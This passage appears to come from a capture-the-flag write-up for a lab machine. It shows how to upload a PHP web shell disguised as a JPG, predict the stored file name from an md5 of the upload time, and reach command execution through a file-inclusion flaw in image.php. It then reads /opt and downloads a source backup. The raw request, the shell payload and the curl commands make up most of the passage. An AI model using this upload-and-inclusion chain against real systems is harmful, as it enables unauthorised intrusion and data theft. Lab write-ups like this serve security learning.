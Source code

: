 We can first upload a JPG file that has the webshell:

```http
POST /upload.php HTTP/1.1
Host: 10.129.71.202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------26481396435153909171938555394
Content-Length: 266
Origin: http://10.129.71.202
Connection: close
Referer: http://10.129.71.202/avatar_uploader.php
Cookie: PHPSESSID=2ajm7fqv45h7v26oj6uft18j5i



-----------------------------26481396435153909171938555394
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.jpg"
Content-Type: application/x-php

<?php system($_REQUEST['cmd']); ?>
-----------------------------26481396435153909171938555394--
```

Then, we can simply take note of the time it was uploaded.

{% embed url="https://www.epochconverter.com/" %}

In this case, mine was `1683786509`. Now, we can calculate where the file is.&#x20;

```php
php > $time = "Thu, 11 May 2023 06:28:29 GMT";
php > echo md5('$file_hash' . strtotime($time)) . '_' . 'cmd.jpg';
0984bc7fa7f25246092fa7f7963cdba2_cmd.jpg
```

The reason we don't have to consider `$file_hash` as a variable is because in the script, it puts single quotes around it, meaning that the literal string is prepended instead of the output of `uniqid`. We can then get RCE through the LFI on `image.php`.

```
$ curl -d 'cmd=id' http://10.129.71.202/image.php?img=images/uploads/0984bc7fa7f25246092fa7f7963cdba2_cmd.jpg
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Finding Creds

For some reason, I was unable to get a shell at all. I think there's something blocking outgoing connections. Anyways, we can still enumerate the stuff on the machine using this LFI. The `/opt` directory looked interesting, so I downloaded that zip file:

```
$ curl -d 'cmd=ls+-la /opt' http://10.129.71.202/image.php?img=images/uploads/0984bc7fa7f25246092fa7f7963cdba2_cmd.jpg  
total 624
drwxr-xr-x  2 root root   4096 Dec  2  2021 .
drwxr-xr-x 24 root root   4096 Nov 29  2021 ..
-rw-r--r--  1 root root 627851 Jul 20  2021 source-files-backup.zip

$ curl -d 'cmd=cat /opt/source-files-backup.zip' http://10.129.71.202/image.php?img=images/uploads/0984bc7fa7f25246092fa7f7963cdba2_cmd.jpg > source.zip
```
